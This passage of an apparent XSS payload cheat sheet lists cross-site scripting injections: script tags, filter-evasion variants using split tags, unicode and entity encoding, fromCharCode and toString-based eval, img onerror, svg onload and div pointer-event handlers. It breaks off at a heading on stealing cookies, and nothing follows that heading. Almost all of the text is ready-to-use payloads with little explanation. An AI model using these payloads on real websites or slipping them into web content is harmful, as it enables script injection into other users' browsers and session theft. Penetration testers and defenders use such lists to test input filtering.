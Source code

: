 ```html
<script>console.log("Test");</script>
<script>console.log("Test\n".concat(document.domain).concat("\n").concat(window.origin))</script>
```

### common payloads

```javascript
// Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">

// Img payload
<img src=x onerror=alert('XSS');>
<img src/onerror=print()>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

// Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```

### STEALING COOKIES (CAPTURADOR DE DATOS)
